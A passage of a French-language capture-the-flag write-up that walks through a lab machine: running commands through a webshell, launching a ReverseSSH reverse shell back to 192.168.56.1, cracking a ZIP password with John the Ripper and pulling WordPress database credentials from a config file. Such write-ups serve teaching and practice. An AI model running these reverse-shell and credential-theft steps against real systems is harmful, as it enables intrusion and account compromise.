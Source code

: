 L'argument à passer sur ce webshell se devine facilement :  

```plain
$ curl 'http://127.0.0.1:9090/cmd.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data),1002(coffeez)
```

J'ai uploadé un ReverseSSH sur la VM puis l'ai exécuté via le webshell :  

```plain
curl "http://127.0.0.1:9090/cmd.php?cmd=/dev/shm/reverse-sshx64+-v+-p+7777+192.168.56.1+2>%261"
```

Une fois le shell PTY obtenu je liste les fichiers du groupe *coffeez* vu que l'on dispose des droits :  

```plain
www-data@snow-med:/home/coffeez/www$ find / -group coffeez 2> /dev/null | grep -v /proc/ 
/home/coffeez 
/home/coffeez/.local 
/home/coffeez/.local/share 
/home/coffeez/.cache 
/home/coffeez/.bash_history 
/home/coffeez/www 
/home/coffeez/www/cmd.php 
/home/coffeez/www/index.html 
/home/coffeez/www/wordpress-files.zip
```

Dragon Slayer
-------------

L'archive ZIP demande un mot de passe si on tente de la décompresser. *zip2john* et *JtR* à la rescousse :  

```plain
$ john --wordlist=/tools/wordlists/rockyou.txt /tmp/hash.txt  
Using default input encoding: UTF-8 
Loaded 1 password hash (PKZIP [32/64]) 
Will run 4 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
dragon           (wordpress-files.zip)      
1g 0:00:00:00 DONE (2022-02-08 16:51) 100.0g/s 819200p/s 819200c/s 819200C/s sokar..123456p 
Use the "--show" option to display all of the cracked passwords reliably 
Session completed.
```

On trouve dans la configuration du Wordpress des identifiants différents :  

```php
/** The name of the database for WordPress */ 
define( 'DB_NAME', 'wordpress' ); 

/** MySQL database username */ 
define( 'DB_USER', 'coffeez' ); 

/** MySQL database password */ 
define( 'DB_PASSWORD', 'Thursdays0700' ); 

/** MySQL hostname */ 
define( 'DB_HOST', 'localhost' );
```
